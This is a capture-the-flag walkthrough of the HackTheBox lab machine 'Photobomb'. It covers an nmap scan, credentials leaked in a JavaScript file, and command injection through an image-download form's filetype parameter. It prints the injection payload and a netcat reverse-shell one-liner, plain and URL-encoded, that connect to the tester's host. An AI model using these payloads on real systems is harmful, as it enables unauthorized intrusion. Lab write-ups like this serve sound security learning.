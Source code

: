 # Photobomb WIP
## Start: 24/10/2022
### IP Address: 10.10.11.182

Ok so first things first, nmap scan, -sV for services/versions -sC for any default scripts we can run, Pn to treat the host as online (as we know it is)

```
$> nmap 10.10.11.182 -sV -sC -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-24 19:53 BST
Nmap scan report for 10.10.11.182
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds

```

Ok standard server with SSH and a webbed site which seems to wanting to point us to photobomb.htb, which i'll add to my hosts file just for ease of use.

I mostly swap to the inbuilt browser in burpsuite whenever i look at websites just so that any action i take i can always send to the repeater function and replay them with modifications.

#### Homepage
![Picture of homepage](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/home.png)
Page is very simple, has a link to a "printer" page with a username and password
Looking at the home page source code it seems some careless admin has just given out some credentials in the photobomb.js file loaded by default.
![Picture of leaked privs](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/leaked_privs.png)
So pH0t0 : b0Mb! ok. the name Jameson given here could be useful too.
#### Printer page
![Picture of admin prompt](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer.png)
Well we have some credentials.. might as well try them
![Picture of successful login](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer_success.png)
So this page looks to ask us to select a picture and a size / filetype to download for printing purposes.
It does this by making a post request along with the form data to the same site at /printer, so lets make one manually, as we can specifiy the file name, my initial thought is can we potentially use this to view other files?

So lets hit that button and inspect the request!
![Picture of repeater](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/repeat.png)
So we send a filename, filetype and size. 
Well lets not send anything! What do we get back? 500 error showing a backtrace of the ruby program which runs the server, including what it looks for. Here it shows it's matching a filename using 
![Picture of 500 error 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_1.png)
```
if photo.match(/\.{2}|\//)
```
Well i dont know regex well enough, but it seems it checks for either a `..` or a `/` symbol to try to block directory inclusions
The filename seems secure enough, it can only find pictures that are there, ignores directories, and causes the whole page to error if the system doesn't find the file.
So lets try another parameter, we can use the same technique to view the regex backtrace for the filetype.
![Picture of 500 error 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_2.png)
```
 if !filetype.match(/^(png|jpg)/)
```
again, im not the best with regex. but this regex allows any character as long as it has png or jpg in it, well lets try and breakout using this parameter, i'll put a semicolon and a sleep command and see what happens
```
photo=.&filetype=png;sleep 20&dimensions=0x0
```
and what do you know, that page took ages to load.. about 20 seconds!
![Picture of loading page](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/waiting20.png)
### Command Injection
Well first things first, we seem to have command injection, can we reverse shell at this stage?
There are many different ways to reverse shell, the one that always seems to work for me is below:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $IP $PORT >/tmp/f
```
lets url encode that, setup a netcat listener and see if we get a connection!
![Picture of nc](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/nc-startup.png)
encoded comes out to
```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%36%2e%35%31%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66
```
![Picture of exploit 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_page.png)
![Picture of exploit 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_shell.png)
SHELL ACCESS!

## User Access
We are in command of the user "wizard", lets check this home directory out!
![Picture of user home folder](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/user_folder.png)
And here we find the user.txt flag, I'll let you grab that yourself if you're reading this :)
## Root Access
Ok, so we have the user account, the first thing i run to make things easier to find is linpeas!

